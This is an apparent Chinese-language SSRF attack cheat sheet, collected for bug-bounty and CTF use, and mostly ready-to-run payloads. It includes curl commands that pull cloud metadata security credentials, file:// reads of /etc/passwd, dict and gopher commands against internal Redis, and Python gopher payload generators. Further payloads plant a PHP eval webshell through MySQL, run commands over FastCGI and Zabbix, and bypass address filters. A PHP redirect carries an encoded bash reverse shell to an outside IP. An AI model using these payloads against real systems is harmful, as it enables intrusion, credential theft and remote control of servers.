




## **SSRF存在场景：**
```
各种输入发消息框
发送网址内容的消息服务端会自动请求(如抖音消息，钉钉消息，知乎发帖，QQ卡片消息等，可用DNSlog验证)
全网页翻译的输入框
在线识图输入图片网址的输入框
在线解析url的输入框
在线获取网站信息的输入框
webhook的接口参数可控
```
在src中的ssrf中，最好自定义域名验证dnslog，不要用公网的dnslog（一般被拉黑了的）。

^
## **测试有回显的SSRF的探测协议：**
http:
```    
验证，请求一个查看本地ip的网站，查询出口ip    
验证，请求127.0.0.1

对于云服务器还可以访问元数据服务。
元数据服务是一种提供实例相关配置信息的服务，它允许在实例内部访问实例的属性信息，如实例ID、VPC信息、网卡信息等
阿里云
http://100.100.100.200/latest/meta-data/
腾讯云
http://metadata.tencentyun.com/latest/meta-data/
华为云
http://169.254.169.254/
http://169.254.169.254/latest/meta-data/instance-id
```
云ssrf：
<https://cloud.tencent.com/developer/article/1968655?areaSource=105001.3&traceId=FyZTpLc2ixMvGwJf2-pDn>

<https://aws.amazon.com/cn/blogs/china/talking-about-the-metadata-protection-on-the-instance-from-the-data-leakage-of-capital-one/>
腾讯文档：
<https://cloud.tencent.com/document/product/213/4934#.E6.A3.80.E7.B4.A2E7.94.A8.E6.88.B7.E6.95.B0.E6.8D.AE>

查看用户
curl http://metadata.tencentyun.com/latest/meta-data/cam/security-credentials
curl http://metadata.tencentyun.com/latest/meta-data/cam/security-credentials/TKE_QCSLinkedRolelnEKSLog

^
file:
```
    访问本地文件，file:///etc/hosts 查看本机内网ip
    高权限访问本地文件，file:///proc/net/arp  查看当前的内网的网关为：`172.73.23.1 `，
    而且可以直接发现内网中的另一个 IP 资产为：如`172.73.23.100`
```

伪协议
```
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info
sftp:// SSH文件传输协议或安全文件传输协议
gopher:// 分布式、文档传递服务，可使用gopherus生成payload
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议
tftp:// 简单文件传输协议
```

dict: <https://zhuanlan.zhihu.com/p/115222529>
```
    字典服务器协议，基于查询响应的TCP协议
    dict://172.72.23.23:3306  可探测是否有服务的响应
    dict://172.72.23.27:6379 用dict命令操作redis
                dict://172.72.23.27:6379/set x 2333
                dict://172.72.23.27:6379/info
使用编程的请求函数可以请求，或curl dict://192.168.66.33:6379/info
```
ftp:
```
```
gopher：
```
dict协议的需要一条一条的执行，而gopher协议可以整合执行一条命令就行

并可携带请求包发起get,post请求。dict只能get。

工具gopherus，可以直接计划任务反弹和phpshell。

curl可以走gopher协议
curl gopher://172.2.239.5:9000/_%01%01


手工打gopher流程：
使用脚本生成payload
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

test =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)
# 按照标准，URL只允许一部分ASCII字符，其他字符（如汉字）是不符合标准的，此时就要进行编码。
# 因为我在构造URL的过程中要使用到中文：此时需要用到urllib.parse.quote，此处是为了替换特殊字符\
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new)
print("gopher://"+host+"/_"+result)

下面是GET:
import urllib
test =\
"""GET /ssrf/get.php HTTP/1.1
Host: 192.168.0.111
"""  
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = '_'+new
print(result)
```


^
## **测试SSRF:**
```
用bp跑内网段:
172.72.23.$21$:$80$
dict://172.72.23.$21$:$80$

扫内网站点的目录，扫网站指纹

扫到资产，通过SSRF的入口进行内网攻击：
手工使用入口需进行一次URL编码
BP中使用入口需进行双编码

入口的请求是POST请求使用gopher协议携带POST请求包
```

利用ssrf操作内网redis写入计划任务反弹shell：<https://blog.csdn.net/qq_63844103/article/details/126896955>
利用ssrf操作内网：
<https://www.sqlsec.com/2021/05/ssrf.html>


^
使用gopherus.py对无密码mysql执行sql语句：
```
python2 gopherus.py --exploit mysql
root
select  "<?php eval($_POST[1]);?>"  into outfile "/var/www/html/1.php";
如果在请求体中
记得把_后面那一大段内容再ur编码一次，发送
```

使用gopherus.py对9000端口的FastCGI执行命令：
```
1、PHP版本要高于5.3.3，才能动态修改PHP.INI配置文件
2、知道题目环境中的一个PHP文件的绝对路径
3、PHP-FPM监听在本机9000端口
4、libcurl版本>=7.45.0
```
记得把_后面那一大段内容再ur编码一次，发送


对10050的zabbix，命令执行。
```
gopherus --exploit zabbix
```


有ssrf但是有防御绕过：
**dns 重绑定**
https\://xz.aliyun.com/t/7495?time\_\_1311=n4%2BxnD0Dy7GQ3AKeD5DsA3rcC%3D%2FjO4boTD

^
## **SSRF绕过**

跳转型
```
https://33129999.xyz@baidu.com

已知要符合正则
if(preg_match('/^http:\/\/ctf\..*show$/i',$x)){
    echo file_get_contents($url);
}

要符合http://ctf开头，show结尾，则
http://ctf.@127.0.0.1/flag.php?show
```
^
姿势1：

```
http://127.1:80
http://127.1:80/flag.php
http://0/flag.php
http://127.255.255.254/flag.php
```

姿势2：将点分十进制表示的IP转化为十进制IP地址绕过

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254

利用ip地址加密16进制，
http://013451347312
http://0177.0.0.1/ = 127.0.0.1
http://3232235777/

```

姿势3：利用DNS解析
```
http://customer1.app.my.company.127.0.0.1.nip.io = 127.0.0.1

127.0.0.1.nip.io解析后ip就是127.0.0.1
```

<https://mp.weixin.qq.com/s/r6wOTmzcduWi_6v6ujVBwg>

^
#### **302型**
ssrf要求访问的ip是127.0.0.1
自己部署一个php，程序302到内网的服务，并携带参数，这里是命令执行参数。
```
<?php  
header('Location: http://127.0.0.1/flag.php?cmd=%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%31%36%2e%36%32%2e%33%38%2e%37%31%2f%39%39%39%39%20%30%3e%26%31%22', true, 302);  
exit();
```

^
#### **DNS 重绑定**
SSRF的host过滤器的是以下几个步骤：
```
1. 获取到输入的URL，从该URL中提取Host
2. 对该Host进行DNS解析，获取到解析的IP
3. 检测该IP是否是合法的，比如是否是私有IP等
4. 如果IP检测为合法的，则进入curl的阶段发包

我们从DNS解析的角度看，该检测方式一共有两次，第一次是步骤2中对该host进行DNS解析，第二次是使用curl发包的时候进行解析。这两次DNS解析存在时间差，这就是利用的地方。
```
在上面的过滤流程中，其实只有第一次的DNS解析是是否合法的检查，第二次是发起具体请求的DNS解析，如果在DNS第二次curl时进行解析的时候，我们能够更换URL对应的IP，同时当然要设置够短的`TTL`，那么在`TTL`之后、缓存失效之后，重新访问此URL，就能获取被更换后的IP。如果我们把第一次解析的IP设为合法IP，就能绕过Host合法性检查了；把第二次解析的IP设为内网IP，就达到了SSRF访问内网的目的。

结论就是：DNS Rebinding Attack的原理是：利用服务器两次解析同一域名的短暂间隙，更换域名背后的IP达到突破一些防护限制进行SSRF攻击。

绕过：<https://xz.aliyun.com/news/8300?time__1311=Yq0x07G%3DD%3DoWqGNqeeqBIc08DuiTosWa4D&u_atoken=be005aa1eddc5ab8ea7880e49b8109f9&u_asig=1a0c381017427031663571905e003f>


^
## **并发绕过**
原理待测

